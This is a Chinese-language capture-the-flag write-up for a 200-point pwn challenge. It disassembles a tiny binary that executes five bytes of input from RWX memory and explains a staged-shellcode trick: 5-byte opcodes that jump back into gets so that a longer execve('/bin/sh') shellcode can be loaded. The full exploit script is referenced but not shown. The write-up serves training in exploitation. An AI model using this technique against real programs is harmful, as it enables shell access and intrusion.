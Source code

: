 ## pwn3 (pwn, 200p)

提供了以下文件：  
[pwn2](./pwn2)

---------------------------------------

### 0x1 分析程序
用IDA看下伪代码：

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  void *v3; // eax@1
  char *v4; // ST28_4@1
  const char *v5; // ST2C_4@1

  v3 = mmap((void *)0x31337000, 4096u, 7, 34, 0, 0);
  v4 = (char *)v3;
  v5 = (char *)v3 + 4090;
  gets((char *)v3 + 4090);
  strncpy(v4, v5, 5u);
  return ((int (*)(void))v4)();
}
```

程序逻辑十分简单，如下。用`mmap`分配了块4096个字节的可写可读可执行的内存块。用'gets'读入6个字节，但其实只有5个可以控制，第六个为`\n`，超过6个字节报错。之后把这前5个字节copy到内存块头，并执行。看到这里，就知道关键在于输入的5个字节。这5个字节的要完成什么功能呢？


### 0x2 构造exp
看下程序的汇编代码：

```
.text:0804847D                 push    ebp
.text:0804847E                 mov     ebp, esp
.text:08048480                 and     esp, 0FFFFFFF0h
.text:08048483                 sub     esp, 30h
.text:08048486                 mov     dword ptr [esp+14h], 0 ; offset
.text:0804848E                 mov     dword ptr [esp+10h], 0 ; fd
.text:08048496                 mov     dword ptr [esp+0Ch], 22h ; flags
.text:0804849E                 mov     dword ptr [esp+8], 7 ; prot
.text:080484A6                 mov     dword ptr [esp+4], 1000h ; len
.text:080484AE                 mov     dword ptr [esp], 31337000h ; addr
.text:080484B5                 call    _mmap
.text:080484BA                 mov     [esp+28h], eax
.text:080484BE                 mov     eax, [esp+28h]
.text:080484C2                 add     eax, 0FFAh
.text:080484C7                 mov     [esp+2Ch], eax
.text:080484CB                 mov     eax, [esp+2Ch]
.text:080484CF                 mov     [esp], eax      ; s
.text:080484D2                 call    _gets
.text:080484D7                 mov     dword ptr [esp+8], 5 ; n
.text:080484DF                 mov     eax, [esp+2Ch]
.text:080484E3                 mov     [esp+4], eax    ; src
.text:080484E7                 mov     eax, [esp+28h]
.text:080484EB                 mov     [esp], eax      ; dest
.text:080484EE                 call    _strncpy
.text:080484F3                 mov     eax, [esp+28h]
.text:080484F7                 call    eax
.text:080484F9                 leave
.text:080484FA                 retn
.text:080484FA main            endp
```
首先我们看到只有5个字节肯定是完成不了exploit的，必须让它输入更多的opcode。所以考虑要跳转到`gets`语句，让我们可以输入更多的opcode。假如`gets`参数如果还是`0x31337FFA`(0x31337000+4090)的话，那没有变化，还是只能输入5个字节。要想办法可以输入更多的字节，我们看下执行后`.text:080484F7  call eax` 后栈的情况：

```
esp+0   ->    0x080484F9    ; return address
esp+4         0x31337000    ; strncpy的第一个参数 
esp+8         0x31337FFA    ; strncpy的第二个参数
esp+0c        0x00000005    ; strncpy的第三个参数
```

如果把0x080484F9当`gets`的参数，那么执行将报错，因为`.text`段不可写。但是如果把`0x31337000`当做`gets`的参数，那么是非常好的事情，这样我们可以输入4095个字节的opcode，而且还是可执行的。按照这思路，要把EIP变为`0x080484D2`，并且esp+4。发现`0x080484F9`和`0x080484D2`只有最低的字节不同，是否可以改变下，然后再来个`ret`呢？借助pwntools的`asm`指令，我们得到这个功能的opcode，正好它也是5个字节长度，nice。

```
$ asm "mov byte ptr [esp], 0xd2; ret"
c60424d2c3

$ asm "sub dword ptr [esp], 0x27; ret"
832c2427c3
```

之后，我们可以输入`execve ("/bin/sh")`的shellcode，并执行即可。详细代码请看[pwn2_exp.py](./pwn2_exp.py)


